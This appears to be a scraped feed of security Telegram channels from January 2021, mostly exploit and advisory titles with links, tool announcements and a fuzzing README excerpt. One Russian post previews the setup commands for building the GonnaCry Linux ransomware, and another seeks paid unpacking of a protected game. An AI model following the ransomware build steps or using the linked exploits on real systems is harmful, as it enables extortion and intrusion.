</a>
<blockquote>
Selea Targa IP OCR-ANPR Camera - Developer Backdoor Config Overwrite.. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 11:53:24`

<blockquote>
[webapps] Selea Targa IP OCR-ANPR Camera - Directory Traversal File Disclosure (Unauthenticated)
https://www.exploit-db.com/exploits/49456

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49456?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49456?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Selea Targa IP OCR-ANPR Camera - Directory Traversal File Disclosure (Unauthenticated).. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 10:53:44`

<blockquote>
[webapps] Selea Targa IP OCR-ANPR Camera - 'files_list' Remote Stored XSS
https://www.exploit-db.com/exploits/49454

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49454">
https://www.exploit-db.com/exploits/49454
</a>
<blockquote>
Selea Targa IP OCR-ANPR Camera - 'files_list' Remote Stored XSS.. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 10:53:43`

<blockquote>
[local] Selea CarPlateServer (CPS) 4.0.1.6 - Local Privilege Escalation
https://www.exploit-db.com/exploits/49453

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49453?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49453?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Selea CarPlateServer (CPS) 4.0.1.6 - Local Privilege Escalation.. local exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 10:53:42`

<blockquote>
[webapps] Selea CarPlateServer (CPS) 4.0.1.6 - Remote Program Execution
https://www.exploit-db.com/exploits/49452

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49452?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49452?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Selea CarPlateServer (CPS) 4.0.1.6 - Remote Program Execution.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-01-21 20:23:17`

<blockquote>
PeaceMaker Threat Detection is a Windows kernel-based application that detects advanced techniques used by malware https://github.com/D4stiny/PeaceMaker &#35;malware &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/D4stiny/PeaceMaker">
https://github.com/D4stiny/PeaceMaker
</a>
<blockquote>
PeaceMaker Threat Detection is a Windows kernel-based application that detects advanced techniques used by malware. - D4stiny/PeaceMaker
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-21 19:34:52`

<blockquote>
Drupal core - Critical - Third-party libraries - SA-CORE-2021-001

https://www.drupal.org/sa-core-2021-001
</blockquote>

<table><tr><td><b>→</b><a href="https://www.drupal.org/sa-core-2021-001">
https://www.drupal.org/sa-core-2021-001
</a>
<blockquote>
The Drupal project uses the pear Archive_Tar library, which has released a security update that impacts Drupal. For more information please see: CVE-2020-36193 Exploits may be possible if Drupal is configured to allow .tar, .tar.gz, .bz2, or .tlz file uploads and processes them.
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-21 19:15:15`

<blockquote>
A next generation version of enum4linux (a Windows/Samba enumeration tool) with additional features like JSON/YAML export.

https://github.com/cddmp/enum4linux-ng/
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/cddmp/enum4linux-ng">
https://github.com/cddmp/enum4linux-ng
</a>
<blockquote>
A next generation version of enum4linux (a Windows/Samba enumeration tool) with additional features like JSON/YAML export. Aimed for security professionals and CTF players. - cddmp/enum4linux-ng
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-21 14:53:24`

<blockquote>
[webapps] Anchor CMS 0.12.7 - CSRF (Delete user)
https://www.exploit-db.com/exploits/49451

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49451?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49451?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Anchor CMS 0.12.7 - CSRF (Delete user). CVE-2020-23342 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-21 11:53:29`

<blockquote>
[webapps] Wordpress Plugin Simple Job Board 2.9.3 - Authenticated File Read (Metasploit)
https://www.exploit-db.com/exploits/49450

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49450">
https://www.exploit-db.com/exploits/49450
</a>
<blockquote>
Wordpress Plugin Simple Job Board 2.9.3 - Authenticated File Read (Metasploit). CVE-2020-35749 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-21 11:53:26`

<blockquote>
[webapps] Nagios XI 5.7.5 - Multiple Persistent Cross-Site Scripting
https://www.exploit-db.com/exploits/49449

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49449">
https://www.exploit-db.com/exploits/49449
</a>
<blockquote>
Nagios XI 5.7.5 - Multiple Persistent Cross-Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-21 11:53:25`

<blockquote>
[webapps] Apartment Visitors Management System 1.0 - 'email' SQL Injection
https://www.exploit-db.com/exploits/49448

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49448?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49448?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Apartment Visitors Management System 1.0 - 'email' SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-21 11:53:24`

<blockquote>
[webapps] Online Documents Sharing Platform 1.0 - 'user' SQL Injection
https://www.exploit-db.com/exploits/49447

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49447?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49447?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Online Documents Sharing Platform 1.0 - 'user' SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-21 05:12:53`

* https://telegra.ph/GonnaCry-sobiraem-virus-vymogatel-dlya-linuks-11-13-3

<blockquote>
GonnaCry: собираем вирус вымогатель для линукс
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/GonnaCry-sobiraem-virus-vymogatel-dlya-linuks-11-13-3">
https://telegra.ph/GonnaCry-sobiraem-virus-vymogatel-dlya-linuks-11-13-3
</a>
<blockquote>
Всем привет! Вы скорее всего знаете про вирусы вымогатели по типу WannaCry, Petya и т.п. Но данные вымогатели не работают под линукс, но я нашел такой, но с другим названием. Как вы поняли он называется GonnaCry. Переходим к установке. источник статьи Обновим пакеты: apt update apt upgrade Качаем гит и питон: apt install git apt install python Теперь билдер: git clone https://github.com/tarcisio-marinho/GonnaCry.git Открываем папку: cd GonnaCry Теперь для сборки понадобится pyinstaller: pip3 install pyinstaller…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-20 17:53:44`

<blockquote>
Church Rota 2.6.4 Shell Upload
https://packetstormsecurity.com/files/161029/cve-2021-3164.py.txt

via Exploit Files ≈ Packet Storm
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/161029/cve-2021-3164.py.txt">
https://packetstormsecurity.com/files/161029/cve-2021-3164.py.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-20 17:32:53`

<blockquote>
https://github.com/fireeye/Mandiant-Azure-AD-Investigator
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/fireeye/Mandiant-Azure-AD-Investigator">
https://github.com/fireeye/Mandiant-Azure-AD-Investigator
</a>
<blockquote>
Contribute to fireeye/Mandiant-Azure-AD-Investigator development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-20 12:53:43`

<blockquote>
[webapps] Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)
https://www.exploit-db.com/exploits/49445

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49445">
https://www.exploit-db.com/exploits/49445
</a>
<blockquote>
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-20 12:53:42`

<blockquote>
[webapps] Oracle Business Intelligence Enterprise Edition 11.1.1.7.140715 - Stored XSS
https://www.exploit-db.com/exploits/49444

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49444?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49444?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Oracle Business Intelligence Enterprise Edition 11.1.1.7.140715 - Stored XSS.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-20 12:53:41`

<blockquote>
[webapps] ChurchRota 2.6.4 - RCE (Authenticated)
https://www.exploit-db.com/exploits/49443

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49443?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49443?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
ChurchRota 2.6.4 - RCE (Authenticated).. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-20 09:01:06`

<blockquote>
был плагин, который позволял xss и sql-инъекции подставлять, hackbar вроде назывался. А вообще глянь сборку owasp mantra или https://github.com/mazen160/Firefox-Security-Toolkit
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/mazen160/Firefox-Security-Toolkit">
https://github.com/mazen160/Firefox-Security-Toolkit
</a>
<blockquote>
A tool that transforms Firefox browsers into a penetration testing suite - mazen160/Firefox-Security-Toolkit
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-20 05:53:20`

<blockquote>
Exploiting CVE-2014-3153 (Towelroot)
https://www.reddit.com/r/netsec/comments/l0hpg3/exploiting_cve20143153_towelroot/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/l0hpg3/exploiting_cve20143153_towelroot/">
https://www.reddit.com/r/netsec/comments/l0hpg3/exploiting_cve20143153_towelroot/
</a>
<blockquote>
Posted in r/netsec by u/elongl • 1 point and 0 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-20 04:53:42`

<blockquote>
Enigma protector v5.xx unpacking request
https://forum.reverse4you.org/t/enigma-protector-v5-xx-unpacking-request/1064

via R0 CREW - Latest posts
</blockquote>

<table><tr><td><b>→</b><a href="https://forum.reverse4you.org/t/enigma-protector-v5-xx-unpacking-request/1064">
https://forum.reverse4you.org/t/enigma-protector-v5-xx-unpacking-request/1064
</a>
<blockquote>
Hi,  I need someone to unpack attached .exe file for me. It was packed with enigma protector 5.xx.  Please check it message me a price.  For a full game, you can download from here: https://drive.google.com/file/d/1r2Wcvbk5FUjbsVlZaeabfBXs3cfgJwRr/view
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-20 00:53:44`

<blockquote>
Microsoft Implements Windows Zerologon Flaw ‘Enforcement Mode’
https://threatpost.com/microsoft-implements-windows-zerologon-flaw-enforcement-mode/163104/

via Threatpost
</blockquote>

<table><tr><td><b>→</b><a href="https://threatpost.com/microsoft-implements-windows-zerologon-flaw-enforcement-mode/163104/">
https://threatpost.com/microsoft-implements-windows-zerologon-flaw-enforcement-mode/163104/
</a>
<blockquote>
Starting Feb. 9, Microsoft will enable Domain Controller “enforcement mode” by default to address CVE-2020-1472.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-19 21:53:45`

<blockquote>
Backdoor.Win32.NetBull.11.a / Remote Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/57

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/57">
https://seclists.org/fulldisclosure/2021/Jan/57
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 21:53:44`

<blockquote>
Email-Worm.Win32.Agent.gi / Remote Stack Buffer Overflow - (UDP Datagram)
https://seclists.org/fulldisclosure/2021/Jan/56

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/56">
https://seclists.org/fulldisclosure/2021/Jan/56
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 21:53:42`

<blockquote>
Constructor.Win32.SMWG.c / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jan/55

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/55">
https://seclists.org/fulldisclosure/2021/Jan/55
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 21:53:41`

<blockquote>
Constructor.Win32.SMWG.a / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jan/54

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/54">
https://seclists.org/fulldisclosure/2021/Jan/54
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 21:53:40`

<blockquote>
Newfuture Trojan V.1.0 BETA 1 / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jan/53

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/53">
https://seclists.org/fulldisclosure/2021/Jan/53
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:57`

<blockquote>
Backdoor.Win32.Mnets / Remote Stack Buffer Overflow - (UDP Datagram Proto)
https://seclists.org/fulldisclosure/2021/Jan/52

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/52">
https://seclists.org/fulldisclosure/2021/Jan/52
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:56`

<blockquote>
Backdoor.Win32.Whgrx / Remote Host Header Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/51

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/51">
https://seclists.org/fulldisclosure/2021/Jan/51
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:55`

<blockquote>
Backdoor.Win32.Latinus.b / Remote Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/50

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/50">
https://seclists.org/fulldisclosure/2021/Jan/50
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:54`

<blockquote>
Backdoor.Win32.Nucleroot.t - MaskPE 1.6 / File Based Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/49

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/49">
https://seclists.org/fulldisclosure/2021/Jan/49
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:50`

<blockquote>
Backdoor.Win32.Nucleroot.bi - MaskPE 2.0 / File Based Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/48

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/48">
https://seclists.org/fulldisclosure/2021/Jan/48
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:49`

<blockquote>
Backdoor.Win32.Ncx.bt / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/47

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/47">
https://seclists.org/fulldisclosure/2021/Jan/47
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:46`

<blockquote>
BACKDOOR.WIN32.KETCH.A / Remote SEH Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/46

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/46">
https://seclists.org/fulldisclosure/2021/Jan/46
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:45`

<blockquote>
Backdoor.Win32.Ketch.i / SEH Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/45

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/45">
https://seclists.org/fulldisclosure/2021/Jan/45
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:44`

<blockquote>
BACKDOOR.WIN32.KURBADUR.A / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/44

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/44">
https://seclists.org/fulldisclosure/2021/Jan/44
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:43`

<blockquote>
Re: Trovent Security Advisory 2010-01 [updated] / CVE-2020-28208: Rocket.Chat email address enumeration vulnerability
https://seclists.org/fulldisclosure/2021/Jan/43

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/43">
https://seclists.org/fulldisclosure/2021/Jan/43
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:42`

<blockquote>
Re: Backdoor.Win32.NinjaSpy.c / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/42

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/42">
https://seclists.org/fulldisclosure/2021/Jan/42
</a>
</td></tr></table>

---

# defcon_news
`2021-01-19 20:53:40`

<blockquote>
Re: Backdoor.Win32.Xtreme.yvp / Insecure Permissions EoP
https://seclists.org/fulldisclosure/2021/Jan/41

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/41">
https://seclists.org/fulldisclosure/2021/Jan/41
</a>
</td></tr></table>

---

# isast
`2021-01-19 20:36:18`

<blockquote>
https://github.com/jdbirdwell/afl

&quot;For programs that accept input via a network, use:

$ ./afl-fuzz -i testcase_dir -o findings_dir [-D delay_before_write] \
             [-t timeout_delay] [-L ] -N network_specification /path/to/program \
       [...params...]

where -L is specified only if the target program acts as a client to a network
server (sends data to the server before receiving input in return).  Otherwise,
afl-fuzz assumes the target program acts as a server or daemon and expects to
receive data from network clients and respond.  The network_specification
and the delay parameters are discussed below in (12).&quot;

&quot;12) Fuzzing network services
----------------------------

Both client and server (daemon) programs that communicate using an 
IP network (IPv4 or IPv6) can be fuzzed using the command line

$ ./afl-fuzz -i testcase_dir -o findings_dir [-D delay_before_write] \
             [-t timeout_delay] [-L] -N network_specification /path/to/program \
       [...params...]

where the network_specification has a form similar to a URL:

    [tcp|udp]://hostspec:port

Afl-fuzz has two network fuzzing modes, where it acts as a client to a
network server that expects input via a socket (no -L option), and where it
acts as a server to a network client that sends data to afl-fuzz before
receiving input (using the -L option).  In the first case, afl-fuzz sends data
to the port specified by the URL.  In the second case, afl-fuzz receives data
on that port and sends a (fuzzed) response to the port the target (client) used
to send its data.

Note that when afl-fuzz acts as a server (the -L option), there is no control
over how the target client manages its use of sockets - and in particular, a
client that uses ephemeral sockets (the usual case) will rapidly consume the
network stack's pool of available sockets.  Some operating systems are able to
reclaim used ephemeral sockets to keep the pool from being exhausted; others
may experience difficulties.

While the -D and -t command line arguments are optional, they are almost
always necessary when fuzzing a program using network protocols, as
described below.

Case is irrelevant in the network specification.  For programs that
use a stream (connection-based) protocol, use TCP, and for programs
that use a datagram (connectionless) protocol, use UDP.  The hostspec
must be one of ::1 (forcing IPv6 networking), 127.0.0.1 (forcing IPv4
networking), and localhost (which is typically configured as IPv4 but
may suppport IPv6 on some systems).  Only loopback networking (local
to the host) is supported.  The port must be either a port number in
the range 1..65535 or a service name known to the system being used.
You can test programs that use privileged ports, but you then have to
provide afl-fuzz with those additional privileges (e.g., root).  It is
usually better to reconfigure the program being tested so that it will
use a non-privileged port during fuzzing.

Programs that implement network services, also called daemons, are
typically transaction-based: They wait for a request and send a
response, and some expect a sequence of request/response transactions.
Afl-fuzz implements fuzzing only for the first write to the target
program and ignores all responses from the target.  Most network
services expect to run as background processes and process requests
from many processes -- they do not normally exit.  A timeout delay is
required in order to terminate these processes, and the default
timeout delay used in afl-fuzz is usually too long.  The user needs to
experimentally determine a timeout delay (in milliseconds) that
produces a sufficiently low percentage of hangs (exits forced by
expiration of the delay) while allowing the input to the target from
afl-fuzz to be completely processed.  (Note that afl-fuzz will usually
count these hangs as a single unique hang.) Since a network service
does not normally exit, the initial timing performed by afl-fuzz will
fail unless a '+' character is appended to the timeout_delay
parameter, indicating that afl-fuzz is to ignore these timeouts.
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/jdbirdwell/afl">
https://github.com/jdbirdwell/afl
</a>
<blockquote>
american fuzzy lop for network fuzzing (unofficial) -- official afl site is http://lcamtuf.coredump.cx/afl/ - jdbirdwell/afl
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-19 17:27:11`

<blockquote>
https://github.com/illus0r/kruglendar
Hi there! Kruglendar is a minimalistic round calendar with a plenty of white space to make notes. I use it for sketching past events and planning.
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/illus0r/kruglendar">
https://github.com/illus0r/kruglendar
</a>
<blockquote>
Contribute to illus0r/kruglendar development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-19 15:32:29`

<blockquote>
https://github.com/glzjin/CTFd-Whale
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/glzjin/CTFd-Whale">
https://github.com/glzjin/CTFd-Whale
</a>
<blockquote>
A plugin for CTFd which allow your users to deploy a standalone instance for challenges. - glzjin/CTFd-Whale
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-19 14:53:36`

<blockquote>
ProtOSINT - Python script that helps you investigate Protonmail accounts and ProtonVPN IP addresses
https://hakin9.org/protosint-python-script-that-helps-you-investigate-protonmail-accounts-and-protonvpn-ip-addresses/

via Hakin9 – IT Security Magazine
</blockquote>

<table><tr><td><b>→</b><a href="https://hakin9.org/protosint-python-script-that-helps-you-investigate-protonmail-accounts-and-protonvpn-ip-addresses/">
https://hakin9.org/protosint-python-script-that-helps-you-investigate-protonmail-accounts-and-protonvpn-ip-addresses/
</a>
<blockquote>
ProtOSINT is a Python script that helps you investigate ProtonMail accounts and ProtonVPN IP addresses.  Questions? Problems? Visit main page: https://github.com/pixelbubble/ProtOSINT      Description  This tool can help you in your OSINT investigation on Proton service (for educational purposes only).  ProtOSINT
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-19 09:53:20`

<blockquote>
[webapps] osTicket 1.14.2 - SSRF
https://www.exploit-db.com/exploits/49441

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49441">
https://www.exploit-db.com/exploits/49441
</a>
<blockquote>
osTicket 1.14.2 - SSRF. CVE-2020-24881 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-19 05:53:17`

<blockquote>
CVE-2020-5144 – SonicWall Global VPN New Elevation of Privileges Vulnerability (including Demo POC)
https://www.reddit.com/r/netsec/comments/kzrmay/cve20205144_sonicwall_global_vpn_new_elevation_of/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/kzrmay/cve20205144_sonicwall_global_vpn_new_elevation_of/">
https://www.reddit.com/r/netsec/comments/kzrmay/cve20205144_sonicwall_global_vpn_new_elevation_of/
</a>
<blockquote>
Posted in r/netsec by u/chenerlich • 3 points and 1 comment
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-01-18 21:55:27`

<blockquote>
xnu_gym is a pongoOS module that patches XNU to reintroduce previously known and patched vulnerabilities https://github.com/tjkr0wn/xnu_gym &#35;reverse &#35;ios &#35;exploitation &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/tjkr0wn/xnu_gym">
https://github.com/tjkr0wn/xnu_gym
</a>
<blockquote>
xnu_gym is a pongoOS module that patches XNU to reintroduce previously known and patched vulnerabilities. This is an easy way to practice kernel exploitation and jailbreak development! - tjkr0wn/xn...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-18 19:53:49`

<blockquote>
Cisco UCS Manager 2.2(1d) Remote Command Execution
https://packetstormsecurity.com/files/160991/Cisco-UCS-Manager-CVE-2015-6435.py.txt

via Exploit Files ≈ Packet Storm
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/160991/Cisco-UCS-Manager-CVE-2015-6435.py.txt">
https://packetstormsecurity.com/files/160991/Cisco-UCS-Manager-CVE-2015-6435.py.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-18 18:32:56`

<blockquote>
&#35;threatleak 

https://cymptom.com/cve-2020-5144-sonicwall-global-vpn-new-elevation-of-privileges-vulnerability/2021/01/
</blockquote>

<table><tr><td><b>→</b><a href="https://cymptom.com/cve-2020-5144-sonicwall-global-vpn-new-elevation-of-privileges-vulnerability/2021/01/">
https://cymptom.com/cve-2020-5144-sonicwall-global-vpn-new-elevation-of-privileges-vulnerability/2021/01/
</a>
<blockquote>
As the rippling effects of the COVID-19 pandemic continue to cause disruption to our daily functions – in particular our work life – we continue our series of VPN vulnerabilities where we present our latest findings. In our previous research blog posts, we elaborated on new Privilege Escalation vulnerabilities we had found in Hotspot Shield … Continue reading &quot;CVE-2020-5144 – SonicWall Global VPN New Elevation of Privileges Vulnerability&quot;
</blockquote>
</td></tr></table>

---

# isast
`2021-01-18 13:59:17`

<blockquote>
HuskyCI - open source tool that orchestrates security tests 

huskyCI - open-source утилита для упрощения встраивания статических анализаторов в процессы CI. Из поддерживаемых Bandit, Safety, Brakeman, Npm Audit, Yarn Audit, Gosec, SpotBugs с Find Sec Bugs, TFSec, GitLeaks. Есть клиентская и серверная части. Веб-морда для управления уязвимостями отсутствует, но можно отправить запрос на API для извлечения результатов из БД. Подробнее можно прочитать в документации.

https://github.com/globocom/huskyci

&#35;dev &#35;ops &#35;sast &#35;secrets
</blockquote>

---

# defcon_news
`2021-01-18 11:53:42`

<blockquote>
[webapps] Life Insurance Management System 1.0 - File Upload RCE (Authenticated)
https://www.exploit-db.com/exploits/49440

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49440?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49440?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Life Insurance Management System 1.0 - File Upload RCE (Authenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-18 11:53:41`

<blockquote>
[webapps] Life Insurance Management System 1.0 - 'client_id' SQL Injection
https://www.exploit-db.com/exploits/49439

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49439?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49439?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Life Insurance Management System 1.0 - 'client_id' SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-18 11:53:39`

<blockquote>
[webapps] Inteno IOPSYS 3.16.4 - root filesystem access via sambashare (Authenticated)
https://www.exploit-db.com/exploits/49438

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49438">
https://www.exploit-db.com/exploits/49438
</a>
<blockquote>
Inteno IOPSYS 3.16.4 - root filesystem access via sambashare (Authenticated).. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-18 10:53:19`

<blockquote>
[webapps] Xwiki CMS 12.10.2 - Cross Site Scripting (XSS)
https://www.exploit-db.com/exploits/49437

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49437">
https://www.exploit-db.com/exploits/49437
</a>
<blockquote>
Xwiki CMS 12.10.2 - Cross Site Scripting (XSS).. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-18 10:53:17`

<blockquote>
[webapps] Cisco UCS Manager 2.2(1d) - Remote Command Execution
https://www.exploit-db.com/exploits/49436

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49436">
https://www.exploit-db.com/exploits/49436
</a>
<blockquote>
Cisco UCS Manager 2.2(1d) - Remote Command Execution.. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-18 10:32:03`

<blockquote>
собсна да https://github.com/pwn2winctf/NIZKCTF
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/pwn2winctf/NIZKCTF">
https://github.com/pwn2winctf/NIZKCTF
</a>
<blockquote>
Upstream for Non Interactive Zero Knowledge CTF platform - pwn2winctf/NIZKCTF
</blockquote>
</td></tr></table>

---

# webware
